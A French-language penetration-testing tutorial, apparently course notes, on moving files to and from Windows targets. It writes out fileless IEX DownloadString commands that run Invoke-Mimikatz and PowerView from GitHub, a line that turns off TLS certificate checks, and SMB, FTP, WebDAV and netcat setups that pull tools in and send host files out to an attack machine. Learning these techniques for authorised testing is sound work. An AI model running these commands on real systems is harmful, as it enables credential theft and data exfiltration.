

Le transfert de fichier
Powershell base64 décode encode
Check de la clé ssh en hash md5
admin@pc[/pc]$ md5sum id_rsa
4e301756a07ded0a2dd6953abf015278 id_rsa
Encodage de la clé en base64
>admin@pc[/pc]$ cat id_rsa |base64 -w 0;echo
>
>LS0tLS1CRUdJTiBPUEVOU1NIIFBSSVZBVEUgS0VZLS0tLS0K...
Nous pouvons copier ce contenu et le coller dans une borne Windows PowerShell et utiliser certaines fonctions PowerShell pour le décoder.
>PS C:\pc> [IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("LS0tLS1CRUdJTiBPUEVOU1NIIFBSSVZBVEUgS0VZLS0tLS0K...
Enfin, nous pouvons confirmer si le fichier a été transféré avec succès à l'aide du Get-FileHash cmdlet, qui fait la même chose que md5sum fait.
PS C:\pc> Get-FileHash C:\Users\Public\id_rsa -Algorithm md5
Algorithm Hash Path
--------- ---- ----
MD5 4E301756A07DED0A2DD6953ABF015278 C:\Users\Public\id_rsa
Téléchargements Web PowerShell
PowerShell propose de nombreuses options de transfert de fichiers.
Dans n'importe quelle version de PowerShell, le System.Net.WebClient peut être utilisée pour télécharger un fichier sur HTTP, HTTPS ou FTP. Les éléments suivants décrivent les méthodes WebClient pour télécharger des données à partir d'une ressource:
| Method | Description |
|---|---|
| OpenRead | Renvoie les données d'une ressource en tant que Flux. |
| OpenReadAsync | Renvoie les données d'une ressource sans bloquer le thread appelant. |
| DownloadData | Télécharge les données d'une ressource et renvoie un tableau d'octets. |
| DownloadDataAsync | Télécharge les données d'une ressource et renvoie un tableau d'octets sans bloquer le thread appelant. |
| DownloadFile | Télécharge les données d'une ressource vers un fichier local. |
| DownloadFileAsync | Télécharge les données d'une ressource vers un fichier local sans bloquer le thread appelant. |
| DownloadString | Télécharge une chaîne à partir d'une ressource et renvoie une chaîne. |
| DownloadStringAsync | Télécharge une chaîne à partir d'une ressource sans bloquer le fil appelant. |
Méthode PowerShell DownloadFile
Nous pouvons spécifier le nom de la classe Net.WebClient et la méthode DownloadFile avec les paramètres correspondant à l'URL du fichier cible à télécharger et le nom du fichier de sortie.
PS C:\pc> # Example: (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
PS C:\pc> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')
PS C:\pc> # Example: (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
PS C:\pc> (New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'PowerViewAsync.ps1')
PowerShell DownloadString - Méthode sans fichier
Comme nous l'avons vu précédemment, les attaques sans fichier fonctionnent en utilisant certaines fonctions du système d'exploitation pour télécharger la charge utile et l'exécuter directement.
PowerShell peut également être utilisé pour effectuer des attaques sans fichier.
Au lieu de télécharger un script PowerShell sur disque, nous pouvons l'exécuter directement en mémoire à l'aide du Invoke-Expression cmdlet ou l'alias IEX.
PS C:\pc> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
IEX accepte également les entrées de pipeline.
PS C:\pc> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
PowerShell Invoke-WebRequest
À partir de PowerShell 3.0, le Invoke-WebRequest cmdlet est également disponible, mais il est nettement plus lent à télécharger des fichiers.
Vous pouvez utiliser les alias iwr, curl, et wget au lieu de la Invoke-WebRequest nom complet.
PS C:\pc> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
https://gist.github.com/HarmJ0y/bb48307ffa663256e239
Erreurs courantes avec PowerShell
Il peut y avoir des cas où la configuration du premier lancement d'Internet Explorer n'est pas terminée, ce qui empêche le téléchargement.

Cela peut être contourné à l'aide du paramètre -UseBasicParsing.
PS C:\pc> Invoke-WebRequest https://<ip>/PowerView.ps1 | IEX
Invoke-WebRequest : The response content cannot be parsed because the Internet Explorer engine is not available, or Internet Explorer's first-launch configuration is not complete. Specify the UseBasicParsing parameter and try again.
At line:1 char:1
+ Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/P ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CategoryInfo : NotImplemented: (:) [Invoke-WebRequest], NotSupportedException
+ FullyQualifiedErrorId : WebCmdletIEDomNotSupportedException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand
PS C:\pc> Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
Une autre erreur dans les téléchargements PowerShell est liée au canal sécurisé SSL / TLS si le certificat n'est pas fiable. Nous pouvons contourner cette erreur avec la commande suivante:
PS C:\pc> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
Exception calling "DownloadString" with "1" argument(s): "The underlying connection was closed: Could not establish trust
relationship for the SSL/TLS secure channel."
At line:1 char:1
+ IEX(New-Object Net.WebClient).DownloadString('https://raw.githubuserc ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CategoryInfo : NotSpecified: (:) [], MethodInvocationException
+ FullyQualifiedErrorId : WebException
PS C:\pc> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
Téléchargements SMB
Le protocole SMB qui s'exécute sur le port TCP / 445 est courant dans les réseaux d'entreprise où les services Windows s'exécutent.
Il permet aux applications et aux utilisateurs de transférer des fichiers vers et depuis des serveurs distants.
Nous pouvons utiliser SMB pour télécharger facilement des fichiers depuis notre Pwnbox.
Nous devons créer un serveur SMB dans notre Pwnbox avec smbserver.py de Impacket puis utiliser copy, move, PowerShell Copy-Item, ou tout autre outil permettant la connexion à SMB.
Créer le serveur SMB
admin@pc[/pc]$ sudo impacket-smbserver share -smb2support /tmp/smbshare
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
Copiez un fichier à partir du serveur SMB
C:\pc> copy \\192.168.220.133\share\nc.exe
1 file(s) copied.
Les nouvelles versions de Windows bloquent l'accès non authentifié des invités, comme nous pouvons le voir dans la commande suivante:
C:\pc> copy \\192.168.220.133\share\nc.exe
You can't access this shared folder because your organization's security policies block unauthenticated guest access. These policies help protect your PC from unsafe or malicious devices on the network.
Créez le serveur SMB avec un nom d'utilisateur et un mot de passe
admin@pc[/pc]$ sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
Monter le serveur SMB avec nom d'utilisateur et mot de passe
C:\pc> net use n: \\192.168.220.133\share /user:test test
The command completed successfully.
C:\pc> copy n:\nc.exe
1 file(s) copied.
Remarque: Vous pouvez également monter le serveur SMB si vous recevez une erreur lorsque vous utilisez copy filename \\ IP \ sharename.
Téléchargements FTP
Une autre façon de transférer des fichiers consiste à utiliser FTP ( File Transfer Protocol ), qui utilise le port TCP / 21 et TCP / 20.
Nous pouvons utiliser le client FTP ou PowerShell Net.WebClient pour télécharger des fichiers à partir d'un serveur FTP.
Nous pouvons configurer un serveur FTP dans notre hôte d'attaque à l'aide de Python3 pyftpdlib module.
Il peut être installé avec la commande suivante:
admin@pc[/pc]$ sudo pip3 install pyftpdlib
Ensuite, nous pouvons spécifier le port numéro 21 car, par défaut, pyftpdlib utilise le port 2121.
L'authentification anonyme est activée par défaut si nous ne définissons pas d'utilisateur et de mot de passe.
Configuration d'un serveur FTP Python3
admin@pc[/pc]$ sudo python3 -m pyftpdlib --port 21
[I 2022-05-17 10:09:19] concurrency model: async
[I 2022-05-17 10:09:19] masquerade (NAT) address: None
[I 2022-05-17 10:09:19] passive ports: None
[I 2022-05-17 10:09:19] >>> starting FTP server on 0.0.0.0:21, pid=3210 <<<
Transférer des fichiers à partir d'un serveur FTP à l'aide de PowerShell
PS C:\pc> (New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'ftp-file.txt')
Lorsque nous obtenons un shell sur une machine distante, nous n'avons peut-être pas de shell interactif.
Si tel est le cas, nous pouvons créer un fichier de commande FTP pour télécharger un fichier.
Tout d'abord, nous devons créer un fichier contenant les commandes que nous voulons exécuter, puis utiliser le client FTP pour utiliser ce fichier pour télécharger ce fichier.
Créer un fichier de commande pour le client FTP et télécharger le fichier cible
C:\pc> echo open 192.168.49.128 > ftpcommand.txt
C:\pc> echo USER anonymous >> ftpcommand.txt
C:\pc> echo binary >> ftpcommand.txt
C:\pc> echo GET file.txt >> ftpcommand.txt
C:\pc> echo bye >> ftpcommand.txt
C:\pc> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128
Log in with USER and PASS first.
ftp> USER anonymous
ftp> GET file.txt
ftp> bye
C:\pc>more file.txt
This is a test file
Il existe également des situations telles que la fissuration par mot de passe, l'analyse, l'exfiltration, etc., où nous devons télécharger des fichiers de notre machine cible dans notre hôte d'attaque.
Nous pouvons utiliser les mêmes méthodes que nous avons utilisées précédement.
Voyons comment nous pouvons effectuer le téléchargement de fichiers de différentes manières.
PowerShell Base64 Encode & Decode
Encoder le fichier à l'aide de PowerShell
````powershell PS C:\pc> [Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))
IyBDb3B5cmlnaHQgKGMpIDE5OTMtMjAwOSBNaWNyb3NvZnQgQ29ycC4NCiMNCiMgVGhpcyBpcyBhIHNhbXBsZSBIT1NUUyBmaWxlIHVzZWQgYnkgTWljcm9zb2Z0IFRDUC9JUCBmb3IgV2luZG93cy4NCiMNCiMgVGhpcyBmaWxlIGNvbnRhaW5zIHRoZSBtYXBwaW5ncyBvZiBJUCBhZGRyZXNzZXMgdG8gaG9zdCBuYW1lcy4gRWFjaA0KIyBlbnRyeSBzaG91bGQgYmUga2VwdCBvbiBhbiBpbmRpdmlkdWFsIGxpbmUuIFRoZSBJUCBhZGRyZXNzIHNob3VsZA0KIyBiZSBwbGFjZWQgaW4gdGhlIGZpcnN0IGNvbHVtbiBmb2xsb3dlZCBieSB0aGUgY29ycmVzcG9uZGluZyBob3N0IG5hbWUuDQojIFRoZSBJUCBhZGRyZXNzIGFuZCB0aGUgaG9zdCBuYW1lIHNob3VsZCBiZSBzZXBhcmF0ZWQgYnkgYXQgbGVhc3Qgb25lDQojIHNwYWNlLg0KIw0KIyBBZGRpdGlvbmFsbHksIGNvbW1lbnRzIChzdWNoIGFzIHRoZXNlKSBtYXkgYmUgaW5zZXJ0ZWQgb24gaW5kaXZpZHVhbA0KIyBsaW5lcyBvciBmb2xsb3dpbmcgdGhlIG1hY2hpbmUgbmFtZSBkZW5vdGVkIGJ5IGEgJyMnIHN5bWJvbC4NCiMNCiMgRm9yIGV4YW1wbGU6DQojDQojICAgICAgMTAyLjU0Ljk0Ljk3ICAgICByaGluby5hY21lLmNvbSAgICAgICAgICAjIHNvdXJjZSBzZXJ2ZXINCiMgICAgICAgMzguMjUuNjMuMTAgICAgIHguYWNtZS5jb20gICAgICAgICAgICAgICMgeCBjbGllbnQgaG9zdA0KDQojIGxvY2FsaG9zdCBuYW1lIHJlc29sdXRpb24gaXMgaGFuZGxlZCB3aXRoaW4gRE5TIGl0c2VsZi4NCiMJMTI3LjAuMC4xICAgICAgIGxvY2FsaG9zdA0KIwk6OjEgICAgICAgICAgICAgbG9jYWxob3N0DQo= PS C:\pc> Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash
Hash 3688374325B992DEF12793500307566D
Nous copions ce contenu et le collons dans notre hôte d'attaque, utilisons la commande base64 pour le décoder et utiliser le md5sum application pour confirmer le transfert s'est déroulé correctement.
### Decode Base64 String sous Linux
````sh
admin@pc[/pc]$ echo IyBDb3B5cmlnaHQgKGMpIDE5OTMtMjAwOSBNaWNyb3NvZnQgQ29ycC4NCiMNCiMgVGhpcyBpcyBhIHNhbXBsZSBIT1NUUyBmaWxlIHVzZWQgYnkgTWljcm9zb2Z0IFRDUC9JUCBmb3IgV2luZG93cy4NCiMNCiMgVGhpcyBmaWxlIGNvbnRhaW5zIHRoZSBtYXBwaW5ncyBvZiBJUCBhZGRyZXNzZXMgdG8gaG9zdCBuYW1lcy4gRWFjaA0KIyBlbnRyeSBzaG91bGQgYmUga2VwdCBvbiBhbiBpbmRpdmlkdWFsIGxpbmUuIFRoZSBJUCBhZGRyZXNzIHNob3VsZA0KIyBiZSBwbGFjZWQgaW4gdGhlIGZpcnN0IGNvbHVtbiBmb2xsb3dlZCBieSB0aGUgY29ycmVzcG9uZGluZyBob3N0IG5hbWUuDQojIFRoZSBJUCBhZGRyZXNzIGFuZCB0aGUgaG9zdCBuYW1lIHNob3VsZCBiZSBzZXBhcmF0ZWQgYnkgYXQgbGVhc3Qgb25lDQojIHNwYWNlLg0KIw0KIyBBZGRpdGlvbmFsbHksIGNvbW1lbnRzIChzdWNoIGFzIHRoZXNlKSBtYXkgYmUgaW5zZXJ0ZWQgb24gaW5kaXZpZHVhbA0KIyBsaW5lcyBvciBmb2xsb3dpbmcgdGhlIG1hY2hpbmUgbmFtZSBkZW5vdGVkIGJ5IGEgJyMnIHN5bWJvbC4NCiMNCiMgRm9yIGV4YW1wbGU6DQojDQojICAgICAgMTAyLjU0Ljk0Ljk3ICAgICByaGluby5hY21lLmNvbSAgICAgICAgICAjIHNvdXJjZSBzZXJ2ZXINCiMgICAgICAgMzguMjUuNjMuMTAgICAgIHguYWNtZS5jb20gICAgICAgICAgICAgICMgeCBjbGllbnQgaG9zdA0KDQojIGxvY2FsaG9zdCBuYW1lIHJlc29sdXRpb24gaXMgaGFuZGxlZCB3aXRoaW4gRE5TIGl0c2VsZi4NCiMJMTI3LjAuMC4xICAgICAgIGxvY2FsaG9zdA0KIwk6OjEgICAgICAgICAgICAgbG9jYWxob3N0DQo= | base64 -d > hosts
admin@pc[/pc]$ md5sum hosts
3688374325b992def12793500307566d hosts
Téléchargements Web PowerShell
PowerShell n'a pas de fonction intégrée pour les opérations de téléchargement, mais nous pouvons utiliser Invoke-WebRequest ou Invoke-RestMethod pour construire notre fonction de téléchargement. Nous aurons également besoin d'un serveur Web qui accepte les téléchargements, ce qui n'est pas une option par défaut dans la plupart des utilitaires de serveur Web courants.
Pour notre serveur Web, nous pouvons utiliser serveur de telechargement, un module étendu du Python http.Server, qui comprend une page de téléchargement de fichiers. Installons-le et démarrons le serveur Web.
Installation d'un serveur Web configuré avec téléchargement
admin@pc[/pc]$ pip3 install uploadserver
Collecting upload server
Using cached uploadserver-2.0.1-py3-none-any.whl (6.9 kB)
Installing collected packages: uploadserver
Successfully installed uploadserver-2.0.1
admin@pc[/pc]$ python3 -m uploadserver
File upload available at /upload
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
Nous pouvons maintenant utiliser un script PowerShell PSUpload.ps1 qui utilise Invoke-WebRequest pour effectuer les opérations de téléchargement.
Le script accepte deux paramètres -File, que nous utilisons pour spécifier le chemin de fichier, et -Uri, l'URL du serveur où nous téléchargerons notre fichier.
Essayons de télécharger le fichier hôte à partir de notre hôte Windows.
PS C:\pc> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
PS C:\pc> Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
[+] File Uploaded: C:\Windows\System32\drivers\etc\hosts
[+] FileHash: 5E7241D66FD77E9E8EA866B6278B2373
Téléchargement Web PowerShell Base64
Une autre façon d'utiliser les fichiers codés PowerShell et base64 pour les opérations de téléchargement consiste à utiliser Invoke-WebRequest ou Invoke-RestMethod avec Netcat.
Nous utilisons Netcat pour écouter sur un port que nous spécifions et envoyer le fichier en tant que demande POST.
Enfin, nous copions la sortie et utilisons la fonction de décodage base64 pour convertir la chaîne base64 en fichier.
PS C:\pc> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
PS C:\pc> Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
Nous capturons les données base64 avec Netcat et utilisons l'application base64 avec l'option de décodage pour convertir la chaîne en fichier.
admin@pc[/pc]$ nc -lvnp 8000
listening on [any] 8000 ...
connect to [192.168.49.128] from (UNKNOWN) [192.168.49.129] 50923
POST / HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.1682
Content-Type: application/x-www-form-urlencoded
Host: 192.168.49.128:8000
Content-Length: 1820
Connection: Keep-Alive
IyBDb3B5cmlnaHQgKGMpIDE5OTMtMjAwOSBNaWNyb3NvZnQgQ29ycC4NCiMNCiMgVGhpcyBpcyBhIHNhbXBsZSBIT1NUUyBmaWxlIHVzZWQgYnkgTWljcm9zb2Z0IFRDUC9JUCBmb3IgV2luZG93cy4NCiMNCiMgVGhpcyBmaWxlIGNvbnRhaW5zIHRoZSBtYXBwaW5ncyBvZiBJUCBhZGRyZXNzZXMgdG8gaG9zdCBuYW1lcy4gRWFjaA0KIyBlbnRyeSBzaG91bGQgYmUga2VwdCBvbiBhbiBpbmRpdmlkdWFsIGxpbmUuIFRoZSBJUCBhZGRyZXNzIHNob3VsZA0KIyBiZSBwbGFjZWQgaW4gdGhlIGZpcnN0IGNvbHVtbiBmb2xsb3dlZCBieSB0aGUgY29ycmVzcG9uZGluZyBob3N0IG5hbWUuDQojIFRoZSBJUCBhZGRyZXNzIGFuZCB0aGUgaG9zdCBuYW1lIHNob3VsZCBiZSBzZXBhcmF0ZWQgYnkgYXQgbGVhc3Qgb25lDQo
...SNIP...
admin@pc[/pc]$ echo <base64> | base64 -d -w 0 > hosts
Téléchargements SMB
Nous avons précédemment vu que les entreprises autorisent souvent le trafic sortant à l'aide des protocoles HTTP ( TCP / 80 ) et HTTPS ( TCP / 443 ).
Généralement, les entreprises n'autorisent pas le protocole SMB ( TCP / 445 ) hors de leur réseau interne, car cela peut les ouvrir à des attaques potentielles.
Pour plus d'informations à ce sujet, nous pouvons lire la publication Microsoft Empêcher le trafic SMB des connexions latérales et entrer ou quitter le réseau.
Une alternative consiste à exécuter SMB sur HTTP avec WebDav.
WebDAV ( RFC 4918 ) est une extension de HTTP, le protocole Internet que les navigateurs Web et les serveurs Web utilisent pour communiquer entre eux.
Le protocole WebDAV permet à un serveur Web de se comporter comme un serveur de fichiers, prenant en charge la création de contenu collaboratif.
WebDAV peut également utiliser HTTPS.
Lorsque vous utilisez SMB, il tentera d'abord de se connecter à l'aide du protocole SMB, et s'il n'y a pas de part SMB disponible, il essaiera de se connecter à l'aide du protocole HTTP.
Dans la capture de Wireshark suivante, nous essayons de nous connecter au partage de fichiers testing3, et parce qu'il n'a rien trouvé avec SMB, il utilise HTTP.

Configuration du serveur WebDav
Pour configurer notre serveur WebDav, nous devons installer deux modules Python, wsgidav et cheroot ( vous pouvez en savoir plus sur cette implémentation ici: wsgidav github)).
Après les avoir installés, nous exécutons le wsgidav application dans le répertoire cible.
Installation des modules WebDav Python
admin@pc[/pc]$ sudo pip install wsgidav cheroot
[sudo] password for plaintext:
Collecting wsgidav
Downloading WsgiDAV-4.0.1-py3-none-any.whl (171 kB)
|████████████████████████████████| 171 kB 1.4 MB/s
...SNIP...
Utilisation du module WebDav Python
admin@pc[/pc]$ sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
[sudo] password for plaintext:
Running without configuration file.
10:02:53.949 - WARNING : App wsgidav.mw.cors.Cors(None).is_disabled() returned True: skipping.
10:02:53.950 - INFO : WsgiDAV/4.0.1 Python/3.9.2 Linux-5.15.0-15parrot1-amd64-x86_64-with-glibc2.31
10:02:53.950 - INFO : Lock manager: LockManager(LockStorageDict)
10:02:53.950 - INFO : Property manager: None
10:02:53.950 - INFO : Domain controller: SimpleDomainController()
10:02:53.950 - INFO : Registered DAV providers by route:
10:02:53.950 - INFO : - '/:dir_browser': FilesystemProvider for path '/usr/local/lib/python3.9/dist-packages/wsgidav/dir_browser/htdocs' (Read-Only) (anonymous)
10:02:53.950 - INFO : - '/': FilesystemProvider for path '/tmp' (Read-Write) (anonymous)
10:02:53.950 - WARNING : Basic authentication is enabled: It is highly recommended to enable SSL.
10:02:53.950 - WARNING : Share '/' will allow anonymous write access.
10:02:53.950 - WARNING : Share '/:dir_browser' will allow anonymous read access.
10:02:54.194 - INFO : Running WsgiDAV/4.0.1 Cheroot/8.6.0 Python 3.9.2
10:02:54.194 - INFO : Serving on http://0.0.0.0:80 ...
Connexion au partage Webdav
Nous pouvons maintenant essayer de nous connecter au partage en utilisant le DavWWWRoot répertoire.
C:\pc> dir \\192.168.49.128\DavWWWRoot
Volume in drive \\192.168.49.128\DavWWWRoot has no label.
Volume Serial Number is 0000-0000
Directory of \\192.168.49.128\DavWWWRoot
05/18/2022 10:05 AM <DIR> .
05/18/2022 10:05 AM <DIR> ..
05/18/2022 10:05 AM <DIR> sharefolder
05/18/2022 10:05 AM 13 filetest.txt
1 File(s) 13 bytes
3 Dir(s) 43,443,318,784 bytes free
Remarque: DavWWWRoot est un mot clé spécial reconnu par Windows Shell. Aucun dossier de ce type n'existe sur votre serveur WebDAV. Le mot clé DavWWRoot indique au pilote Mini-Redirector, qui gère les demandes WebDAV que vous vous connectez à la racine du serveur WebDAV.
Vous pouvez éviter d'utiliser ce mot-clé si vous spécifiez un dossier qui existe sur votre serveur lors de la connexion au serveur. Par exemple: \ 192.168.49.128 \ sharefolder
Téléchargement de fichiers à l'aide de SMB
C:\pc> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
C:\pc> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
Remarque: S'il n'y a pas de restrictions SMB ( TCP / 445 ), vous pouvez utiliser impacket-smbserver de la même manière que nous l'avons configuré pour les opérations de téléchargement.
Téléchargements FTP
Le téléchargement de fichiers à l'aide de FTP est très similaire au téléchargement de fichiers.
Nous pouvons utiliser PowerShell ou le client FTP pour executer l'opération.
Avant de démarrer notre serveur FTP à l'aide du module Python pyftpdlib, nous devons spécifier l'option --write pour permettre aux clients de télécharger des fichiers sur notre hôte d'attaque.
admin@pc[/pc]$ sudo python3 -m pyftpdlib --port 21 --write
/usr/local/lib/python3.9/dist-packages/pyftpdlib/authorizers.py:243: RuntimeWarning: write permissions assigned to anonymous user.
warnings.warn("write permissions assigned to anonymous user.",
[I 2022-05-18 10:33:31] concurrency model: async
[I 2022-05-18 10:33:31] masquerade (NAT) address: None
[I 2022-05-18 10:33:31] passive ports: None
[I 2022-05-18 10:33:31] >>> starting FTP server on 0.0.0.0:21, pid=5155 <<<
Utilisons maintenant la fonction de téléchargement PowerShell pour télécharger un fichier sur notre serveur FTP.
Fichier de téléchargement PowerShell
PS C:\pc> (New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
Créer un fichier de commande pour le client FTP pour télécharger un fichier
C:\pc> echo open 192.168.49.128 > ftpcommand.txt
C:\pc> echo USER anonymous >> ftpcommand.txt
C:\pc> echo binary >> ftpcommand.txt
C:\pc> echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
C:\pc> echo bye >> ftpcommand.txt
C:\pc> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128
Log in with USER and PASS first.
ftp> USER anonymous
ftp> PUT c:\windows\system32\drivers\etc\hosts
ftp> bye